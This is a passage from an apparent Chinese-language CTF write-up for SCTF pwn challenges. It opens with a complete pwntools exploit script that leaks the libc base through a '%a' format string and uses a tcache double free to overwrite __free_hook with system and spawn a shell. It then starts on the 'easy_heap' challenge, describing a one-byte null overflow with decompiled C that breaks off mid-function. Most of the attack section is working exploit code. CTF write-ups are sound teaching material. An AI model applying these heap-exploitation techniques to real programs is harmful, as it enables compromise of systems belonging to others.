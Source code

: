 ```python

    def choice(num):
        sla('choice:',num)
    def add(asize,acon):
        choice(1)
        sla('size:',asize)
        sla('note:',acon)
    def free(aid):
        choice(2)
        sla('index:',aid)


    sla('SCTF:','%a%a%a%a%a')
    ru('0x0p+00x0p+00x0.0')
    libc_base = (int(ru('p'),16) << 4) - 0x18b720
    log.success("libc_base = %s"%hex(libc_base))
    libc = ELF('./libc-2.26.so')
    malloc_hook = libc_base + libc.symbols['__malloc_hook']
    free_hook = libc_base + libc.symbols['__free_hook']
    free_hook = libc_base + 0x18d5a8
    malloc_hook = libc_base + libc.symbols['__malloc_hook']
    system = libc_base + libc.symbols['system']
    system = libc_base + 0x21f80
    add(0x60,'/bin/sh\x00')
    add(0x30,'111')
    choice(1)
    sla('size:',0)#2
    free(2)
    free(2)
    add(0x10,p64(free_hook))
    log.success("free_hook = %s"%hex(free_hook))
    add(8,'AAA')
    add(0x18,p64(system))
    free(0)

    #ctx.debug()
    irt()
```



### easy_heap

 这个pwn题漏洞很明显，在0xe2d处，看见该读函数存在一字节溢出，该字节为0。

```c
unsigned __int64 __fastcall some_read_nterm_0end(char *dst, unsigned __int64 len)
{
  char buf; // [rsp+13h] [rbp-Dh]
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i < len; ++i )
  {
    if ( read(0, &buf, 1uLL) <= 0 )
    {
      perror("Read failed!\n");
      exit(-1);
    }
    if ( buf == 10 )
      break;
    dst[i] = buf;
  }
  if ( i == len )
```